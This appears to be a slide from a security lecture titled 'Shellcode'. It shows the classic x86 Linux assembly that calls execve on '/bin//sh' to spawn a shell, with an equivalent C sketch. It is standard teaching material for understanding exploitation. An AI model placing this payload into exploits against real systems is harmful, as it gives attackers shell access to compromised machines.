

# Shellcode
push $0xb
pop %eax
cltd				; edx <- sext(eax)
push %edx
push $0x68732f2f		; “//sh”
push $0x6e69622f		; “/bin”
mov %esp,%ebx
push %edx
push %ebx
mov %esp,%ecx
int $0x80
char *null = NULL;
char *bin_sh = "/bin//sh";
char **argv = &bin_sh;
sys_execve(bin_sh, argv, NULL);